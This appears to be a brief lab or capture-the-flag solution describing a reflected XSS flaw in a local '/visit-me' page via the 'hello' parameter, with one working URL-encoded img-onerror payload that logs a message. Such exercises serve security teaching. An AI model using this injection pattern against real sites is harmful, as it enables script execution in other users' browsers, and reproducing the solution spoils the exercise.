 # Solution

## Injection

The `/visit-me` page is vulnerable to a reflected client-side xss injection via the `hello` query parameter.

## Working Payload

```
http://localhost:2025/visit-me?hello=%3Cimg%20src=a%20onerror=console.log(%22I_FOUND_AN_XSS!!!%22)%3E
```
